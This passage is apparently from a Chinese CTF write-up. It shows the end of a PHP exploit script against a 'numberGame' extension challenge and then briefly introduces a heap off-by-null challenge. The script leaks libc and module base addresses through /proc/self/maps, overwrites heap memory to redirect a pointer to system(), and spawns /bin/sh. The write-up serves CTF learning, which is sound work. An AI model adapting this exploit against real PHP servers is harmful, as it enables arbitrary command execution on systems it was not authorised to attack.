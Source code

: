 ```php
    $addr = dechex($addr);
    $addr = hex2bin($addr);
    $addr = strrev($addr);
    $addr = str_pad($addr, 8, "\x00");
    return $addr;
}

function leakaddr($buffer){
    global $libc, $mbase;
    $p = '/([0-9a-f]+)\-[0-9a-f]+ .* \/usr\/lib\/x86_64-linux-gnu\/libc.so.6/';
    $p1 = '/([0-9a-f]+)\-[0-9a-f]+ .* \/home\/l1qu1d\/pwn\/chall\/php_pwn\/numberGame\/numberGame.so/';
    preg_match_all($p, $buffer, $libc);
    preg_match_all($p1, $buffer, $mbase);
    return "";
}

ob_start("leakaddr");
include("/proc/self/maps");
$buffer = ob_get_contents();
ob_end_flush();
leakaddr($buffer);
$libc_base = hexdec($libc[1][0]);
$game_base = hexdec($mbase[1][0]);
echo "Libc base => " . dechex($libc_base) . "\n";
echo "game base => " . dechex($libc_base) . "\n";


$offset = ($game_base + 0x4008) & 0xffffffff;
$system = $libc_base + 0x58750;
echo "offset => " . dechex($offset) . "\n";
echo "system => " . dechex($system) . "\n";


add_chunk(5, [0, 0, 0, 0x80000000, 0], "GeekCmore");
add_chunk(5, [0xdeadbeef, 0xdeadbeef, 0xdeadbeef, 0xdeadbeef, 0xdeadbeef], "GeekCmore");
add_chunk(1, [0], "/bin/sh");
show_chunk(0);
edit_chunk(0, 18, $offset);

edit_name(1, substr(p64($system), 0, 6));
edit_name(2, "1")
?>
```

### 堆off by null：PwnShell

题目还是一个典型的堆菜单，分析结构体有点抽象，感觉是为了埋洞之后方便利用搞的：

![image](http://127.0.0.1:49715/assets/image-20250404164958-au287x1.png)​
